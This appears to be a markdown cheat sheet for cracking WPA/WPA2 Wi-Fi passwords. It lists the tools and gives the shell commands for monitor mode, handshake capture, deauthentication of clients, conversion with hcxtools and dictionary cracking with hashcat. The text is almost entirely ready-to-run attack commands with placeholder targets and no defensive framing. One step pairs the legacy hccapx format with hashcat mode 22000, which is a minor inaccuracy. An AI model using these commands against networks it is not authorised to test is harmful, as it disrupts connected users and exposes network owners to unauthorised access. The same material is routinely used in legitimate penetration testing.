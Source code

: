 #### Tools Required

- **Aircrack-ng Suite**: For capturing handshakes.
- **Hashcat**: For cracking the hashes.
- **Hcxtools**: For converting captures into a format readable by Hashcat.
- **SecLists**: Repository containing password dictionaries.

#### Capturing the Handshake

1. **Monitor Mode**:
   ```shell-session
   sudo airmon-ng start wlan0
   ```

2. **Identify Target Network**:
   ```shell-session
   sudo airodump-ng wlan0mon
   ```

3. **Capture Handshake**:
   ```shell-session
   sudo airodump-ng --bssid [Target BSSID] -c [Channel] --write [Output File] wlan0mon
   ```

4. **Deauthenticate a Client (optional)**:
   ```shell-session
   sudo aireplay-ng --deauth 5 -a [Target BSSID] -c [Client MAC] wlan0mon
   ```

#### Converting to Hashcat Format

- **For 4-way Handshake**:
  ```shell-session
  cap2hccapx.bin [Input .cap File] [Output .hccapx File]
  ```

- **For PMKID**:
  ```shell-session
  hcxpcapngtool -o [Output Hash File] -E [ESSID List File] -I [Identity List File] [Input .cap File]
  ```

#### Cracking with Hashcat

- **Setting Up Hashcat**:
  ```shell-session
  sudo apt install hashcat
  ```

- **Cracking 4-way Handshake**:
  ```shell-session
  hashcat -m 22000 [Input .hccapx File] [Password List] --force
  ```

- **Cracking PMKID**:
  ```shell-session
  hashcat -m 22000 [PMKID Hash File] [Password List] --force
  ```
